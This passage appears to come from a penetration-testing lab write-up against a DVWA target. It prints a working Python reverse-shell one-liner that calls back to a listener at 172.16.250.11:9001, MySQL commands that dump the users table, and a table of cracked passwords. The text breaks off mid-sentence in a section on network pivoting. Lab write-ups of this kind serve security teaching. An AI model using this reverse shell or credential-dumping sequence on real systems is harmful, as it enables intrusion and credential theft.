```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.250.11",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```

And finally we will be listening to the port we have selected. In this case the port 9001. We can see that we belong to another network interface 

![[Pasted image 20250512162449.png]]

# Credential leak

![[Pasted image 20250512164302.png]]

# Database Information

While exploring the compromised machine, I found sensitive data, which is presented below

```python
mysql -u root
```

```python
use dvwa;
```

```python
selec * from users;
```

![[Pasted image 20250512165114.png]]

We successfully cracked the hashes using crackstation.

| user_id | first_name | last_name | user    | password     |
| ------- | ---------- | --------- | ------- | ------------ |
| 1       | admin      | admin     | admin   | ==password== |
| 2       | Gordon     | Brown     | gordonb | ==abc123==   |
| 3       | Hack       | Me        | 1337    | ==charley==  |
| 4       | Pablo      | Picasso   | pablo   | ==letmein==  |
| 5       | Bob        | Smith     | smithy  | ==password== |


![[Pasted image 20250512165408.png]]

# Network Pivoting 

The target network `10.10.10.0/24` is directly reachable through the VPN tunnel (`tun0`) via the gateway `172.16.250.1`, as shown in the routing table. Therefore, no lateral movement or pivoting through intermediate hosts
